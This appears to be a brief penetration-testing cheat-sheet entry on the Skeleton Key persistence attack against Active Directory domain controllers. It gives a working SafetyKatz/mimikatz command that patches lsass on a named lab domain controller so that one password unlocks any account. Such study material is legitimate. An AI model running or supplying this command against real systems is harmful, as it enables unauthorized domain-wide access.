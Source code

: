 **Not very practical, not OPSEC safe and can break shit like ADCS**

Skeleton key is a persistence technique where it is possible to patch a
Domain Controller (lsass process) so that it allows access as any user
with a single password. All the publicly known methods are NOT persistent across reboots.

Create a skeleton key using mimikatz by essentially changing the machine password to `null`
```powershell
SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```